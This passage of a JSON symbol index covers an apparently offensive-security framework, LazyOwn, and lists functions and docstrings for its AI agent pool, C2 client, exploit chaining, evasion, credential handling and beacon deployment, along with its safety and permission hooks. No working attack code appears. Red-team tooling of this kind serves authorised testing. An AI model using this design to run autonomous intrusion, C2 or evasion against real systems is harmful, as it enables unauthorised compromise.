"name": "_load_payload", "signature": "def _load_payload()"}, {"doc": "Execute a LazyOwn shell command via the MCP helper (lazy import).", "kind": "function", "line": 63, "name": "_run_cmd", "signature": "def _run_cmd(command, timeout)"}, {"doc": "Forward a request to the LazyOwn C2 REST API (lazy import).", "kind": "function", "line": 81, "name": "_c2_req", "signature": "def _c2_req(path, method, body)"}, {"kind": "function", "line": 94, "name": "_t_run_command", "signature": "def _t_run_command(command)"}, {"kind": "function", "line": 98, "name": "_t_bridge_suggest", "signature": "def _t_bridge_suggest(phase, services, tag, os_hint)"}, {"doc": "Render the bridge catalog filtered by phase and target OS.\n\nArgs:\n    phase: Optional WorldModel-or-bridge phase identifier. Empty\n        string keeps the previous behaviour and lists every phase.\n    os_hint: Target OS filter (``\"any\"``, ``\"linux\"``, ``\"windows\"``).\n        Defaults to ``\"any\"`` so callers that omit it receive the\n        unfiltered catalog used by older agent prompts.\n\nReturns:\n    A multi-line human-readable summary. When ``phase`` is set the\n    header reports the filtered command count, otherwise it reports\n    the dispatcher's total command count.", "kind": "function", "line": 125, "name": "_t_bridge_catalog", "signature": "def _t_bridge_catalog(phase, os_hint)"}, {"kind": "function", "line": 171, "name": "_t_parquet_context", "signature": "def _t_parquet_context(phase, target)"}, {"kind": "function", "line": 198, "name": "_t_facts_show", "signature": "def _t_facts_show(target)"}, {"kind": "function", "line": 207, "name": "_t_cve_lookup", "signature": "def _t_cve_lookup(product, version)"}, {"kind": "function", "line": 228, "name": "_t_memory_search", "signature": "def _t_memory_search(query)"}, {"kind": "function", "line": 256, "name": "_t_session_status", "signature": "def _t_session_status()"}, {"kind": "function", "line": 277, "name": "_t_read_session_file", "signature": "def _t_read_session_file(filename)"}, {"kind": "function", "line": 287, "name": "_t_list_sessions", "signature": "def _t_list_sessions()"}, {"kind": "function", "line": 295, "name": "_t_c2_status", "signature": "def _t_c2_status()"}, {"kind": "function", "line": 300, "name": "_t_c2_command", "signature": "def _t_c2_command(client_id, command)"}, {"kind": "function", "line": 305, "name": "_t_task_list", "signature": "def _t_task_list(filter_status)"}, {"kind": "function", "line": 319, "name": "_t_task_add", "signature": "def _t_task_add(title, description)"}, {"kind": "function", "line": 333, "name": "_t_inject_objective", "signature": "def _t_inject_objective(title, description)"}, {"kind": "function", "line": 346, "name": "_t_reactive_suggest", "signature": "def _t_reactive_suggest(output, command, platform)"}, {"kind": "function", "line": 369, "name": "_t_searchsploit", "signature": "def _t_searchsploit(query)"}, {"kind": "function", "line": 390, "name": "_t_command_help", "signature": "def _t_command_help(command)"}, {"doc": "Semantic search over indexed sessions/ artefacts.", "kind": "function", "line": 394, "name": "_t_rag_query", "signature": "def _t_rag_query(query, n)"}, {"doc": "Build or load the blue team threat model.", "kind": "function", "line": 415, "name": "_t_threat_model", "signature": "def _t_threat_model(action)"}, {"doc": "Structured search over 1690 Atomic Red Team technique tests.", "kind": "function", "line": 442, "name": "_t_atomic_search", "signature": "def _t_atomic_search(keyword, mitre_id, platform, scope, complexity, has_prereqs, limit, include_command)"}, {"kind": "class", "line": 666, "name": "_AgentState", "signature": "class _AgentState"}, {"kind": "function", "line": 678, "name": "_now_utc", "signature": "def _now_utc()"}, {"kind": "function", "line": 682, "name": "_agent_system_prompt", "signature": "def _agent_system_prompt(tool_names)"}, {"doc": "Thread-pool-based manager for concurrent Groq/Ollama agents.", "kind": "class", "line": 699, "name": "GroqAgentPool", "signature": "class GroqAgentPool"}, {"kind": "function", "line": 829, "name": "get_pool", "signature": "def get_pool()"}, {"doc": "Spawn a new Groq/Ollama agent. Returns agent_id.", "kind": "function", "line": 838, "name": "spawn_agent", "signature": "def spawn_agent(goal, tools_filter, api_key, backend, max_iterations, block)"}, {"kind": "function", "line": 857, "name": "agent_status", "signature": "def agent_status(agent_id)"}, {"kind": "function", "line": 861, "name": "agent_result", "signature": "def agent_result(agent_id)"}, {"kind": "function", "line": 865, "name": "list_agents", "signature": "def list_agents(limit)"}, {"kind": "function", "line": 872, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 702, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Spawn a new agent. Returns agent_id immediately.\nIf block=True, waits for completion before returning.", "kind": "method", "line": 706, "name": "spawn", "signature": "def spawn(self, goal, tools_filter, api_key, backend, max_iterations, system_prompt, block)"}, {"kind": "method", "line": 742, "name": "_run", "signature": "def _run(self, state, tools, api_key, max_iterations, system_prompt)"}, {"kind": "method", "line": 778, "name": "status", "signature": "def status(self, agent_id)"}, {"kind": "method", "line": 794, "name": "result", "signature": "def result(self, agent_id)"}, {"kind": "method", "line": 807, "name": "list_all", "signature": "def list_all(self, limit)"}]}, {"doc": "LazyOwn Hook Pipeline (Claude Code style)  8 lifecycle events with chainable handlers. Hooks can block execution (return \"deny\" context) or enrich results.  Events: pre_tool_use       → can deny/modify before dispatch post_tool_use      → can enrich/log after success post_tool_failure  → runs after exception permission_denied  → runs when permission gate blocks a tool session_start      → runs once on MCP init pre_compact        → runs before context compaction post_compact       → runs after compaction audit              → runs on every tool call (logging only)", "id": "skills/lazyown_hooks.py", "kind": "module", "label": "lazyown_hooks.py", "language": "py", "sha256": "ecf6adb8d157114f", "symbol_count": 14, "symbols": [{"kind": "class", "line": 27, "name": "HookEvent", "signature": "class HookEvent(Enum)"}, {"doc": "Chainable hook system.\n\nEach handler receives a context dict and returns an (optionally modified)\ncontext dict. Returning None leaves the context unchanged.\nSetting context[\"_block\"] = True in a pre_tool_use hook denies execution.", "kind": "class", "line": 38, "name": "HookRegistry", "signature": "class HookRegistry"}, {"doc": "PRE_TOOL_USE: block catastrophic shell commands before permission evaluation.\nActs as a last-resort safety net independent of the permission system.", "kind": "function", "line": 101, "name": "sandbox_hook", "signature": "def sandbox_hook(context)"}, {"doc": "PRE_TOOL_USE: prevent rapid-fire C2 commands (>5 per 2s).\nProtects against runaway agent loops.", "kind": "function", "line": 116, "name": "rate_limit_hook", "signature": "def rate_limit_hook(context, window, limit)"}, {"doc": "AUDIT: append a one-line JSON record of every tool call to the audit log.\nNon-blocking — errors are silently swallowed.", "kind": "function", "line": 139, "name": "audit_hook", "signature": "def audit_hook(context, audit_path)"}, {"doc": "POST_TOOL_USE: annotate result with wall-clock execution time.\nReads _start_time set by pre_tool_use in the same call.", "kind": "function", "line": 161, "name": "timing_hook", "signature": "def timing_hook(context)"}, {"doc": "PRE_TOOL_USE: record start time for timing_hook.", "kind": "function", "line": 176, "name": "start_timer_hook", "signature": "def start_timer_hook(context)"}, {"doc": "Create a HookRegistry with the built-in safety hooks wired up.\nCall this once and keep the singleton.", "kind": "function", "line": 187, "name": "build_default_registry", "signature": "def build_default_registry(sessions_dir)"}, {"kind": "function", "line": 224, "name": "get_registry", "signature": "def get_registry(sessions_dir)"}, {"kind": "method", "line": 47, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 56, "name": "register", "signature": "def register(self, event, handler)"}, {"doc": "Run all handlers for event, chaining modified contexts.", "kind": "method", "line": 59, "name": "run", "signature": "def run(self, event, context)"}, {"doc": "Return aggregate hook execution counts.", "kind": "method", "line": 79, "name": "metrics", "signature": "def metrics(self)"}, {"kind": "function", "line": 208, "name": "_audit", "signature": "def _audit(ctx)"}]}, {"doc": "LazyOwn LLM Bridge — MCP Edition ================================= Unified satellite-model interface for lazyown_mcp.py.  Backends: groq    — Groq API (llama-3.3-70b / llama-3.1-8b). Native tool calling via OpenAI-compatible API. ollama  — Local Ollama.  deepseek-r1:1.5b has NO native tool calling. Bridge implements ReAct (Reason + Act) via prompt engineering: the model emits Thought/Action/Action Input/Observation turns that are parsed and executed here, then fed back.  Design: - Zero Flask dependency — pure stdlib + optional groq SDK + requests - Single LLMBridge class owns the tool registry - Both backends share the same tool registry (name → callable) - Groq path: native tool_calls JSON from API → execute → assistant turn - Ollama path: ReAct text loop → regex parse → execute → inject Observation - deepseek-r1 wraps reasoning in <think>…</think>; those are stripped before parsing so the Action line is always visible to the parser - All tool outputs are truncated to MAX_TOOL_OUTPUT chars (context safety)  MCP usage: lazyown_llm_ask(goal=\"…\", backend=\"groq\", max_iterations=6) lazyown_llm_ask(goal=\"…\", backend=\"ollama\")  CLI usage: python3 skills/lazyown_llm.py ask \"Enumerate SMB on 127.0.0.1\" --backend groq", "id": "skills/lazyown_llm.py", "kind": "module", "label": "lazyown_llm.py", "language": "py", "sha256": "e11d250157d1478d", "symbol_count": 21, "symbols": [{"doc": "A callable tool available to the satellite model.", "kind": "class", "line": 71, "name": "LLMTool", "signature": "class LLMTool"}, {"doc": "Unified bridge to Groq (native tool calling) and local Ollama (ReAct).\n\nRegister tools once, then call ask().  Both backends execute the same tools.", "kind": "class", "line": 97, "name": "LLMBridge", "signature": "class LLMBridge"}, {"doc": "Register a standard set of LazyOwn-aware tools on the bridge.\n\nThese tools are safe to call autonomously:\n  run_command     — executes a LazyOwn shell command\n  read_nmap       — reads the latest nmap scan for a target\n  read_plan       — reads sessions/plan.txt\n  read_facts      — shows FactStore summary for a target\n  read_objectives — lists pending objectives", "kind": "function", "line": 334, "name": "_make_default_tools", "signature": "def _make_default_tools(bridge)"}, {"doc": "Create a ready-to-use LLMBridge with optional default LazyOwn tools.\n\nCalled by lazyown_mcp.py for the lazyown_llm_ask handler.", "kind": "function", "line": 438, "name": "build_bridge", "signature": "def build_bridge(backend, model, api_key, with_default_tools)"}, {"kind": "function", "line": 455, "name": "_default_system_prompt", "signature": "def _default_system_prompt(tool_names)"}, {"doc": "Single-call entry point for lazyown_mcp.py.\n\nextra_tools: {name: (description, parameters_dict, callable)}", "kind": "function", "line": 468, "name": "llm_ask", "signature": "def llm_ask(goal, context, backend, model, api_key, max_iterations, system_prompt, extra_tools)"}, {"kind": "function", "line": 493, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 79, "name": "openai_schema", "signature": "def openai_schema(self)"}, {"kind": "method", "line": 104, "name": "__init__", "signature": "def __init__(self, backend, model, api_key)"}, {"kind": "method", "line": 118, "name": "register_tool", "signature": "def register_tool(self, name, description, parameters, func)"}, {"kind": "method", "line": 127, "name": "ask", "signature": "def ask(self, goal, context, max_iterations, system_prompt)"}, {"kind": "method", "line": 140, "name": "_ask_groq", "signature": "def _ask_groq(self, goal, context, max_iterations, system_prompt)"}, {"kind": "method", "line": 201, "name": "_groq_request", "signature": "def _groq_request(self, messages, tools)"}, {"kind": "method", "line": 238, "name": "_ask_ollama_react", "signature": "def _ask_ollama_react(self, goal, context, max_iterations, system_prompt)"}, {"kind": "method", "line": 305, "name": "_ollama_generate", "signature": "def _ollama_generate(self, prompt)"}, {"kind": "method", "line": 318, "name": "_call_tool", "signature": "def _call_tool(self, name, args)"}, {"doc": "Execute a LazyOwn shell command and return its output.", "kind": "function", "line": 346, "name": "run_command", "signature": "def run_command(command)"}, {"doc": "Read the nmap scan file for the given target IP.", "kind": "function", "line": 352, "name": "read_nmap", "signature": "def read_nmap(target)"}, {"doc": "Read the current attack plan from sessions/plan.txt.", "kind": "function", "line": 369, "name": "read_plan", "signature": "def read_plan()"}, {"doc": "Return FactStore structured facts for a target (or all targets).", "kind": "function", "line": 376, "name": "read_facts", "signature": "def read_facts(target)"}, {"doc": "List the next N pending attack objectives.", "kind": "function", "line": 389, "name": "read_objectives", "signature": "def read_objectives(limit)"}]}, {"doc": "LazyOwn MCP Server Exposes LazyOwn framework capabilities as MCP tools for Claude Code and Claude web.  Usage: python3 skills/lazyown_mcp.py  Configuration via environment variables: LAZYOWN_DIR      - Path to LazyOwn directory (default: parent of this file) LAZYOWN_C2_HOST  - C2 server host (default: from payload.json) LAZYOWN_C2_PORT  - C2 server port (default: from payload.json) LAZYOWN_C2_USER  - C2 username (default: from payload.json) LAZYOWN_C2_PASS  - C2 password (default: from payload.json)", "id": "skills/lazyown_mcp.py", "kind": "module", "label": "lazyown_mcp.py", "language": "py", "sha256": "2e0294b8d0e1463f", "symbol_count": 142, "symbols": [{"kind": "function", "line": 74, "name": "_ensure_engine", "signature": "def _ensure_engine()"}, {"kind": "function", "line": 92, "name": "_ensure_bridge", "signature": "def _ensure_bridge()"}, {"kind": "function", "line": 107, "name": "_ensure_state", "signature": "def _ensure_state()"}, {"kind": "function", "line": 118, "name": "_ensure_recommender", "signature": "def _ensure_recommender()"}, {"doc": "Return top-N next-step suggestions for the sitrep payload.\n\n``recommend_and_save`` reads target state from ``session_state`` and\nresolves the API key itself, so no positional arguments are forwarded.\n\nArgs:\n    limit: Maximum number of suggestions to return.\n\nReturns:\n    ``{\"command\", \"score\", \"reasoning\"}`` dicts, or a single\n    ``{\"error\": ...}`` entry when the recommender is unavailable or\n    raises.", "kind": "function", "line": 128, "name": "_sitrep_recommendations", "signature": "def _sitrep_recommendations(limit)"}, {"kind": "function", "line": 165, "name": "_ensure_narrator", "signature": "def _ensure_narrator()"}, {"kind": "function", "line": 176, "name": "_ensure_policy", "signature": "def _ensure_policy()"}, {"kind": "function", "line": 186, "name": "_ensure_facts", "signature": "def _ensure_facts()"}, {"kind": "function", "line": 204, "name": "_ensure_objectives", "signature": "def _ensure_objectives()"}, {"kind": "function", "line": 224, "name": "_ensure_llm", "signature": "def _ensure_llm()"}, {"kind": "function", "line": 235, "name": "_ensure_automapper", "signature": "def _ensure_automapper()"}, {"kind": "function", "line": 245, "name": "_ensure_pdb", "signature": "def _ensure_pdb()"}, {"kind": "function", "line": 262, "name": "_ensure_hive", "signature": "def _ensure_hive()"}, {"kind": "function", "line": 290, "name": "_ensure_auto", "signature": "def _ensure_auto()"}, {"kind": "function", "line": 310, "name": "_ensure_aci", "signature": "def _ensure_aci()"}, {"kind": "function", "line": 331, "name": "_get_pdb", "signature": "def _get_pdb(_)"}, {"doc": "Return PermissionSystem singleton (deny-first rule evaluator).", "kind": "function", "line": 352, "name": "_get_perm_system", "signature": "def _get_perm_system()"}, {"doc": "Return HookRegistry singleton.", "kind": "function", "line": 365, "name": "_get_hooks", "signature": "def _get_hooks()"}, {"doc": "Return active SessionTranscript singleton.", "kind": "function", "line": 378, "name": "_get_transcript", "signature": "def _get_transcript()"}, {"doc": "Apply 5-layer context compaction to a tool result string.", "kind": "function", "line": 391, "name": "_compact", "signature": "def _compact(content, tool_name)"}, {"doc": "Return ClaudeMdLoader singleton.", "kind": "function", "line": 407, "name": "_get_claudemd", "signature": "def _get_claudemd()"}, {"doc": "Return the category→command map, merging any user overrides from sessions/.", "kind": "function", "line": 462, "name": "_load_category_command_map", "signature": "def _load_category_command_map()"}, {"doc": "Load payload.json, return empty dict on failure.", "kind": "function", "line": 509, "name": "_load_payload", "signature": "def _load_payload()"}, {"doc": "Return True when a session file exists and holds content.", "kind": "function", "line": 518, "name": "_has_data", "signature": "def _has_data(path)"}, {"kind": "function", "line": 523, "name": "_save_payload", "signature": "def _save_payload(data)"}, {"doc": "Return (host, port, user, password) from env or payload.json.", "kind": "function", "line": 533, "name": "_c2_creds", "signature": "def _c2_creds()"}, {"doc": "Make an authenticated HTTP request to the C2 server.", "kind": "function", "line": 543, "name": "_c2_request", "signature": "def _c2_request(path, method, body)"}, {"doc": "Decorator that registers an async handler for *tool_name*.\n\nThe decorated function receives ``(arguments: dict, tool_name: str)``\nand must return ``list[types.TextContent]``.", "kind": "function", "line": 618, "name": "register_handler", "signature": "def register_handler(tool_name)"}, {"doc": "Return a ``TextContent`` list after compacting *content*.", "kind": "function", "line": 632, "name": "_make_text", "signature": "def _make_text(tool_name, content)"}, {"doc": "Return a denial response if the permission system blocks *name*.", "kind": "function", "line": 644, "name": "_dispatch_perm_check", "signature": "def _dispatch_perm_check(name, arguments)"}, {"kind": "function", "line": 684, "name": "_h_get_config", "signature": "def _h_get_config(arguments, tool_name)"}, {"doc": "Read/write the LazyOwn SQLite campaign database.\n\nArgs:\n    arguments: Tool arguments with an ``operation`` key.\n    tool_name: MCP tool name for permission/transcript context.\n\nReturns:\n    A ``TextContent`` payload with the operation result as JSON.", "kind": "function", "line": 690, "name": "_h_db", "signature": "def _h_db(arguments, tool_name)"}, {"kind": "function", "line": 822, "name": "_h_get_llm_budget", "signature": "def _h_get_llm_budget(arguments, tool_name)"}, {"kind": "function", "line": 859, "name": "_h_set_config", "signature": "def _h_set_config(arguments, tool_name)"}, {"kind": "function", "line": 882, "name": "_h_list_modules", "signature": "def _h_list_modules(arguments, tool_name)"}, {"kind": "function", "line": 904, "name": "_h_run_command", "signature": "def _h_run_command(arguments, tool_name)"}, {"kind": "function", "line": 969, "name": "_h_ack_event", "signature": "def _h_ack_event(arguments, tool_name)"}, {"kind": "function", "line": 981, "name": "_h_c2_status", "signature": "def _h_c2_status(arguments, tool_name)"}, {"doc": "Reverse-engineer a local artifact through the REA CLI.\n\nArgs:\n    arguments: action, target, address, query, provider, timeout.\n    tool_name: Registered tool name used for the response envelope.\n\nReturns:\n    Single TextContent holding a JSON envelope with the REA result.", "kind": "function", "line": 1023, "name": "_h_rea", "signature": "def _h_rea(arguments, tool_name)"}, {"kind": "function", "line": 1138, "name": "_h_exploit_recommend", "signature": "def _h_exploit_recommend(arguments, tool_name)"}, {"kind": "function", "line": 1162, "name": "_h_evasion_generate", "signature": "def _h_evasion_generate(arguments, tool_name)"}, {"kind": "function", "line": 1177, "name": "_h_evasion_rotate", "signature": "def _h_evasion_rotate(arguments, tool_name)"}, {"kind": "function", "line": 1191, "name": "_h_pivot_status", "signature": "def _h_pivot_status(arguments, tool_name)"}, {"kind": "function", "line": 1211, "name": "_h_dashboard_snapshot", "signature": "def _h_dashboard_snapshot(arguments, tool_name)"}, {"kind": "function", "line": 1231, "name": "_h_unified_dashboard", "signature": "def _h_unified_dashboard(arguments, tool_name)"}, {"kind": "function", "line": 1244, "name": "_h_get_beacons", "signature": "def _h_get_beacons(arguments, tool_name)"}, {"kind": "function", "line": 1250, "name": "_h_auto_pwn", "signature": "def _h_auto_pwn(arguments, tool_name)"}, {"kind": "function", "line": 1283, "name": "_h_exploit_chain", "signature": "def _h_exploit_chain(arguments, tool_name)"}, {"kind": "function", "line": 1343, "name": "_h_lazy_status", "signature": "def _h_lazy_status(arguments, tool_name)"}, {"kind": "function", "line": 1353, "name": "_h_lazy_sync", "signature": "def _h_lazy_sync(arguments, tool_name)"}, {"kind": "function", "line": 1363, "name": "_h_lazy_board", "signature": "def _h_lazy_board(arguments, tool_name)"}, {"kind": "function", "line": 1386, "name": "_h_lazy_trace", "signature": "def _h_lazy_trace(arguments, tool_name)"}, {"kind": "function", "line": 1403, "name": "_h_lazy_hint", "signature": "def _h_lazy_hint(arguments, tool_name)"}, {"kind": "function", "line": 1422, "name": "_h_lazy_workspace", "signature": "def _h_lazy_workspace(arguments, tool_name)"}, {"kind": "function", "line": 1443, "name": "_h_lazy_proxy", "signature": "def _h_lazy_proxy(arguments, tool_name)"}, {"kind": "function", "line": 1468, "name": "_h_lazy_finding", "signature": "def _h_lazy_finding(arguments, tool_name)"}, {"kind": "function", "line": 1508, "name": "_h_lazy_mention", "signature": "def _h_lazy_mention(arguments, tool_name)"}, {"kind": "function", "line": 1539, "name": "_h_lazy_delete", "signature": "def _h_lazy_delete(arguments, tool_name)"}, {"kind": "function", "line": 1564, "name": "_h_lazy_compact", "signature": "def _h_lazy_compact(arguments, tool_name)"}, {"kind": "function", "line": 1588, "name": "_h_lazy_addon", "signature": "def _h_lazy_addon(arguments, tool_name)"}, {"kind": "function", "line": 1616, "name": "_h_lolbas_list", "signature": "def _h_lolbas_list(arguments, tool_name)"}, {"kind": "function", "line": 1656, "name": "_h_lolbas_use", "signature": "def _h_lolbas_use(arguments, tool_name)"}, {"kind": "function", "line": 1706, "name": "_h_stealth", "signature": "def _h_stealth(arguments, tool_name)"}, {"kind": "function", "line": 1730, "name": "_h_rich_tui_snapshot", "signature": "def _h_rich_tui_snapshot(arguments, tool_name)"}, {"kind": "function", "line": 1764, "name": "_h_inject_objective", "signature": "def _h_inject_objective(arguments, tool_name)"}, {"kind": "function", "line": 1784, "name": "_h_credentials", "signature": "def _h_credentials(arguments, tool_name)"}, {"kind": "function", "line": 1843, "name": "_h_facts_show", "signature": "def _h_facts_show(arguments, tool_name)"}, {"doc": "Report ExploitGym harness readiness without installing anything.", "kind": "function", "line": 1863, "name": "_h_exploitgym_status", "signature": "def _h_exploitgym_status(arguments, tool_name)"}, {"doc": "List ExploitGym tasks, optionally filtered by domain.", "kind": "function", "line": 1877, "name": "_h_exploitgym_list", "signature": "def _h_exploitgym_list(arguments, tool_name)"}, {"doc": "Run the agent against an ExploitGym task (containerised only).", "kind": "function", "line": 1893, "name": "_h_exploitgym_run", "signature": "def _h_exploitgym_run(arguments, tool_name)"}, {"doc": "Award Red Team Gym ELO for an ExploitGym task outcome.", "kind": "function", "line": 1913, "name": "_h_exploitgym_score", "signature": "def _h_exploitgym_score(arguments, tool_name)"}, {"doc": "Point opencode/hermes configs at the Lazy llama.cpp server (backup first).", "kind": "function", "line": 1932, "name": "_h_opencode_config", "signature": "def _h_opencode_config(arguments, tool_name)"}, {"doc": "Run the autonomous loop smoke test against a target with one LLM leg.\n\nBinds the task to a single pool member (default llamacpp-local, the\nlocal Qwen server), runs the orchestrator for the given rounds and\nreturns the independent goal verdict plus findings. Used to prove a\nmodel leg end to end before trusting it in production runs.", "kind": "function", "line": 1954, "name": "_h_loop_smoke", "signature": "def _h_loop_smoke(arguments, tool_name)"}, {"doc": "Execute one or more LazyOwn shell commands non-interactively.\n\nUses a PTY (pseudo-terminal) for stdout/stderr so that LazyOwn's\nos.get_terminal_size(stdout.fileno()) succeeds without the ioctl error.\nstdin is kept as a pipe so we can send commands programmatically.\nstart_new_session=True keeps the child in its own session — sudo can't\nreach /dev/tty for password prompts (use sudoers NOPASSWD via setup.sh).", "kind": "function", "line": 2010, "name": "_run_lazyown_command", "signature": "def _run_lazyown_command(command, timeout)"}, {"kind": "function", "line": 2113, "name": "list_tools", "signature": "def list_tools()"}, {"doc": "Substitute the {target} token in a playbook step command.\n\nThe value is shell-quoted so metacharacters in the target cannot break\nout of the step command. Step template syntax (pipes, redirects) is\npreserved because only the substituted value is quoted.\n\nArgs:\n    command: Step command template containing {target}.\n    target: Target value to substitute.\n\nReturns:\n    Command with the quoted target in place of the token.", "kind": "function", "line": 6261, "name": "substitute_playbook_target", "signature": "def substitute_playbook_target(command, target)"}, {"kind": "function", "line": 6279, "name": "call_tool", "signature": "def call_tool(name, arguments)"}, {"doc": "Clean exit on SIGHUP — Claude Code will restart the server automatically.", "kind": "function", "line": 12459, "name": "_handle_sighup", "signature": "def _handle_sighup(signum, frame)"}, {"kind": "function", "line": 12470, "name": "main", "signature": "def main()"}, {"kind": "function", "line": 75, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 93, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 108, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 119, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 166, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 177, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 187, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 205, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 225, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 236, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 246, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 263, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 291, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 311, "name": "_load", "signature": "def _load(ns)"}, {"kind": "function", "line": 556, "name": "_verified_context", "signature": "def _verified_context()"}, {"kind": "function", "line": 566, "name": "_is_lab_target", "signature": "def _is_lab_target(name)"}, {"kind": "function", "line": 625, "name": "_decorator", "signature": "def _decorator(func)"}, {"kind": "function", "line": 710, "name": "_result", "signature": "def _result(payload)"}, {"kind": "function", "line": 921, "name": "_run_with_fallback", "signature": "def _run_with_fallback(cmd, to)"}, {"kind": "function", "line": 1035, "name": "_fail", "signature": "def _fail(message, remediation)"}, {"kind": "function", "line": 1110, "name": "_run_rea", "signature": "def _run_rea()"}, {"kind": "function", "line": 1790, "name": "_add", "signature": "def _add(user, secret, host, source, confirmed)"}, {"kind": "function", "line": 1853, "name": "_do_facts", "signature": "def _do_facts()"}, {"kind": "function", "line": 6293, "name": "text", "signature": "def text(content)"}, {"kind": "function", "line": 12364, "name": "_isolated_runner", "signature": "def _isolated_runner(cmd)"}, {"kind": "function", "line": 12488, "name": "_handle_sse", "signature": "def _handle_sse(request)"}, {"kind": "function", "line": 12492, "name": "_handle_messages", "signature": "def _handle_messages(scope, receive, send)"}, {"kind": "function", "line": 868, "name": "coerce_value", "signature": "def coerce_value(k, v)"}, {"kind": "function", "line": 193, "name": "_create_tool_file", "signature": "def _create_tool_file()"}, {"kind": "function", "line": 251, "name": "_get_pdb", "signature": "def _get_pdb(_)"}, {"kind": "function", "line": 401, "name": "_compact_output_fn", "signature": "def _compact_output_fn(c, t)"}, {"kind": "function", "line": 6654, "name": "_runner", "signature": "def _runner(cmd)"}, {"doc": "Extract do_<cmd> docstring from lazyown.py via AST — no shell spawn, no noise.", "kind": "function", "line": 7617, "name": "_read_docstring", "signature": "def _read_docstring(cmd_name)"}, {"kind": "function", "line": 8509, "name": "_fused_recommendations", "signature": "def _fused_recommendations()"}, {"doc": "Build frontier, goals, constraints, guard, evidence, traffic once.", "kind": "function", "line": 8728, "name": "_ensure_orchestrator", "signature": "def _ensure_orchestrator()"}, {"doc": "Fail-closed pre-execution gate: constraints, scope, guard rules.\n\nReturns (allowed, note). Ask verdicts stay fail-closed in the\nnon-interactive loop; the pending approval id is kept in the\nnote so an operator can decide it out of band.", "kind": "function", "line": 8801, "name": "_gate_command", "signature": "def _gate_command(cmd)"}, {"doc": "Append one worker-trace record to the append-only log.", "kind": "function", "line": 8836, "name": "_trace_append", "signature": "def _trace_append(record)"}, {"doc": "Search past worker traces by substring for process reuse.", "kind": "function", "line": 8845, "name": "_trace_search", "signature": "def _trace_search(query, limit)"}, {"doc": "Single LAZY-style settle: evidence, traffic, goals, trace.\n\nCalled by both _execute_step branches so every step leaves the\nsame custody chain regardless of which source chose the command.", "kind": "function", "line": 8865, "name": "_settle_step", "signature": "def _settle_step(cmd, output, via, finding_values)"}, {"doc": "Read sessions/os.json and return the first entry or empty dict.", "kind": "function", "line": 8921, "name": "_read_os_json", "signature": "def _read_os_json()"}, {"doc": "Block until sessions/scan_{tgt}.nmap.xml appears or timeout elapses.\nReturns the XML path string on success, empty string on timeout.\nPolls every 15 seconds; nmap on a /24 can take 20-30 min.", "kind": "function", "line": 8933, "name": "_wait_for_nmap_xml", "signature": "def _wait_for_nmap_xml(tgt, timeout_s)"}, {"doc": "Read all available session artefacts for *tgt* and ask the LLM to produce\na prioritised list of penetration-testing tasks.  Merges the result into\nsessions/tasks.json without overwriting existing entries.\n\nReturns the list of newly-generated task dicts.", "kind": "function", "line": 8953, "name": "_generate_tasks_from_sessions", "signature": "def _generate_tasks_from_sessions(tgt, platform, api_key)"}, {"doc": "Pop the highest-priority 'New' task from sessions/tasks.json,\nmark it 'Started', and return it.  Returns None if none pending.", "kind": "function", "line": 9068, "name": "_next_pending_task", "signature": "def _next_pending_task()"}, {"doc": "Update task status to Done or Blocked based on outcome.", "kind": "function", "line": 9097, "name": "_mark_task_done", "signature": "def _mark_task_done(task_id, outcome)"}, {"doc": "Run the deterministic kill-chain pre-flight before the adaptive loop:\n  1. ping  → detect OS, write sessions/os.json\n  2. lazynmap → full TCP scan, wait for XML (up to 30 min)\n  3. pwntomate → service-aware tool cascade from XML\n  4. LLM task generation → populate sessions/tasks.json\n\nReturns a list of bootstrap step dicts for reporting.", "kind": "function", "line": 9114, "name": "_bootstrap_sequence", "signature": "def _bootstrap_sequence()"}, {"doc": "Query session_knowledge for commands that succeeded in `category`\nagainst `tgt` in the past.  Returns a list ordered by frequency.", "kind": "function", "line": 9168, "name": "_parquet_candidates", "signature": "def _parquet_candidates(category, tgt)"}, {"doc": "After lazynmap runs, try to find the generated XML file and pass it\nto pwntomate for parallel, service-aware tool execution.\nReturns a short status string for logging.", "kind": "function", "line": 9186, "name": "_run_pwntomate_if_xml_ready", "signature": "def _run_pwntomate_if_xml_ready(tgt)"}, {"doc": "Re-ingest sessions/ into the fact store after pwntomate runs.", "kind": "function", "line": 9225, "name": "_refresh_facts", "signature": "def _refresh_facts(tgt)"}, {"doc": "Use FactStore context to substitute concrete values into the command.\nReturns (cmd, args) possibly augmented with known port/creds.", "kind": "function", "line": 9233, "name": "_build_command_from_facts", "signature": "def _build_command_from_facts(category, resolved_cmd, resolved_args, tgt)"}, {"kind": "function", "line": 9269, "name": "_execute_step", "signature": "def _execute_step()"}, {"kind": "function", "line": 9923, "name": "_advance_phase_wm", "signature": "def _advance_phase_wm()"}, {"kind": "function", "line": 10091, "name": "_read_prompt", "signature": "def _read_prompt()"}, {"kind": "function", "line": 9742, "name": "_is_placeholder", "signature": "def _is_placeholder(val)"}, {"kind": "function", "line": 9376, "name": "_is_placeholder", "signature": "def _is_placeholder(val)"}, {"kind": "function", "line": 10227, "name": "_mcp_executor", "signature": "def _mcp_executor(command, target)"}, {"kind": "function", "line": 10830, "name": "_blocking_run", "signature": "def _blocking_run()"}, {"kind": "function", "line": 11466, "name": "_load_crons", "signature": "def _load_crons()"}, {"kind": "function", "line": 11477, "name": "_save_crons", "signature": "def _save_crons(entries)"}, {"doc": "Detect platform, compile beacon if needed, generate one-liner, copy to clipboard.\nReturns a human-readable status string.", "kind": "function", "line": 11568, "name": "_deploy_beacon_sync", "signature": "def _deploy_beacon_sync()"}, {"kind": "function", "line": 11707, "name": "_run_parquet_query", 